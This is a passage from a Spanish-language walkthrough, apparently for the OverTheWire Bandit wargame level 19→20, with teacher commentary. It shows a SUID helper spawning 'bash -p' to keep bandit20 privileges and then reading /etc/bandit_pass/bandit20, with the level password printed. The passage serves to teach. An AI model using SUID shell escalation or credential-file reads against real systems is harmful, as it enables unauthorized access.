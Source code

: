## 💬{Comentario del profe}  

Aquí ya no solo ejecutas un comando: abres una shell **con privilegios de bandit20**.

---

### ✅ Forma 3 — Abrir una shell persistente con `bash -p`

![Bandit Image](../../Imagenes/level-19-20-8.png)

# {Comando}

## `./bandit20-do bash -p`

# {Salida}

## `bash-4.4$ whoami bandit20`

## {Uso}

## `bash-4.4$ cat /etc/bandit_pass/bandit20 GbKksEFF4yrVs6il55v6gwY5aVje5f0j`

## 💬{Comentario del profe}  

La opción `-p` (preserve privileges) en `bash` hace que la shell **mantenga el UID efectivo (bandit20)** en lugar de “degradarlo” al usuario real (`bandit19`).  
En sistemas modernos esto es importante, porque sin `-p` puede que pierdas los privilegios del SUID.

---

### ✅ Forma 4 — Usar comandos de diagnóstico

# {Comando}

## `./bandit20-do id`

# {Salida}

